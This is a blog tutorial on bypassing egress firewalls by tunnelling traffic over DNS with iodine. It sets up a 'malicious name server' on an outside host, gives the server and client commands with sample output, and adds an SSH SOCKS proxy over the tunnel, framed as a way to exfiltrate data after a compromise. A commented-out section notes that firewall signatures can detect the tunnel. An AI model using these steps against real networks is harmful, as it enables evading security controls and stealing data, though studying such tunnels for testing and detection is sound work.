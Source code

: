 ```yaml
---
layout: post
title:  "Application Firewall Bypass over DNS (iodine)"
date:   2020-08-03 10:43:25 -0400
categories: exfiltration 
tags: gateway
---
```

<p>
Sometimes the adversary is behind a security stack and needs to bypass that stack for one reason or another. Also once an environment has been compromised and the adversary finds some desirable data, the data needs to be removed from the network. In this use case we will assume that common protocols like FTP and SSH are heavily restricted on egress traffic (as they should be). 
</p>


<p>
Often times DNS to any name server is still permitted. This is typically because of lack of awareness, and fear that without DNS the entire environment feels down to the users. In many networks with captive portals (airports, hotels, etc) DNS is permitted prior to signing in. This means that if you could make the requests actually look like DNS you should be able to bypass other controls.
</p>

<p>
Iodine is a pretty old, yet stable, tool that allows you to tunnel traffic inside DNS requests. I've found that the client and server run very easily on linux, and much less so on Mac and Windows so be prepared for that. The documentation can be found here, https://code.kryo.se/iodine/. I find it somewhat convoluted so decided to write my own post on how to use it here.
</p>

<p>
You will require a publicly accessible domain under your control and another system on the outside of the security stack.
</p>


<h3>Step 1 - Configure the Domain</h3>

<p>
This needs to be done before you get stuck behind a security stack. So before you get there make sure to have a stable host online that also permits port 53 ingress. You also need to setup a subdomain on a domain you control. I've stuck with the naming from the Iodine documentation to make it more relatable.
</p>

<p>
The following screenshot from Cloudflare Dash shows that an A record has been created for my malicious name server, currently at 35.196.116.250. This is the host we will run Iodine on. From there an entire subdomain has been delegated to that malicious name server, t1.ninjastars.cf.
</p>

<img src="/images/iodone-dnsconfig.png">

<p>
You can verify the DNS is pointing in the correct direction with <code>dig ns t1.ninjastars.cf +trace</code>. In this case you can see that the NS is delegated to <code>t1ns.ninjastars.cf</code>.
</p>

<pre>t1.ninjastars.cf.	7200	IN	NS	t1ns.ninjastars.cf.</pre>

<h3>Step 2 - Start the Server</h3>

<p>
From the server that will run iodine (in this case 35.196.116.250/t1ns.ninjastars.cf) start the iodine server. The address 10.0.0.1 is used as a point to point interface with your client, so this must be in a different subnet as the client and server. <b>Make sure you are using iodined on the server!</b>
</p>
<br>
<code>
iodined -f 10.0.0.1 -P boom t1.example.com
</code>

<p>
If all went well you should see something like this.
</p>

<pre>
root@sperciballi-iodine:/home/stephen# iodined -f 10.0.0.1 -P boom   t1.ninjastars.cf
Opened dns0
Setting IP of dns0 to 10.0.0.1
Setting MTU of dns0 to 1130
Opened IPv4 UDP socket
Listening to dns for domain t1.ninjastars.cf
</pre>


<h3>Step 3 - Start the Client</h3>

<p>
From the client system behind the security stack start iodine to connect to the iodine server.
</p>
<br>
<code>
iodine -f 35.196.116.250 -P boom t1.ninjastars.cf
</code>

<p>
You should see messages that look like the following, indicating that the tunnel interface has been brought up.
</p>

<pre>
┌──(root💀kali)-[/home/stephen]
└─# iodine -f 35.196.116.250 -r -P boom t1.ninjastars.cf
Opened dns0
Opened IPv4 UDP socket
Sending DNS queries for t1.ninjastars.cf to 35.196.116.250
Autodetecting DNS query type (use -T to override).
Using DNS type NULL queries
Version ok, both using protocol v 0x00000502. You are user #0
Setting IP of dns0 to 10.0.0.2
Setting MTU of dns0 to 1130
Server tunnel IP is 10.0.0.1
Skipping raw mode
Using EDNS0 extension
Switching upstream to codec Base128
Server switched upstream to codec Base128
No alternative downstream codec available, using default (Raw)
Switching to lazy mode for low-latency
Server switched to lazy mode
Autoprobing max downstream fragment size... (skip with -m fragsize)
768 ok.. ...1152 not ok.. 960 ok.. 1056 ok.. 1104 ok.. 1128 ok.. 1140 ok.. will use 1140-2=1138
Setting downstream fragment size to max 1138...
Connection setup complete, transmitting data.
</pre>
<p>
At this point you should be able to ping the server side tunnel IP (10.0.0.1) from the client side of the tunnel.
</p>


<h3>Step 4 - Use the Tunnel</h3>

<p>
With this current point to point tunnel established over DNS you would now want to proxy your client traffic over the tunnel. This could be accomplished by configuring a web proxy at the server side, or more securely an SSH tunnel which is demonstrated below.
</p>

<p>
From the client side of the tunnel we will be SSH'ing into our Iodine server, however as part of that session will open up a local port 8081 that will be used as a SOCKS5 proxy. Note that the IP 10.0.0.1 is the server side of the tunnel.
<p>

<pre>
ssh -i ./google_compute_engine -C -D 8081 stephen@10.0.0.1
</pre>

<p>
With your proxy server started on the client device, a simple use case is to configure your browser connection settings to use a SOCKS5 proxy and using localhost:8081.
</p>

<p>
Search the web for what's my IP and you will see that it is now the public IP of the Iodine server.
</p>

<img src="/images/iodine-ip.png">

<!--
<h3>Step 5 - View the Results</h3>


<p>
Looking at the following NGFW log we can see that the NGFW permitted the session. That being said there were three opportunities so far that it could have prevented this traffic; The application was identified as tcp-over-dns where all you would want is DNS at most, then there were two spyware signatures identified as "Yourfreedom Command and Control" and "Iodine DNS Tunnel Tool Command and Control".
</p>
<br>
<br>
<img src="/images/appid-evasion-iodinengfw.png" alt="ngfw">

-->

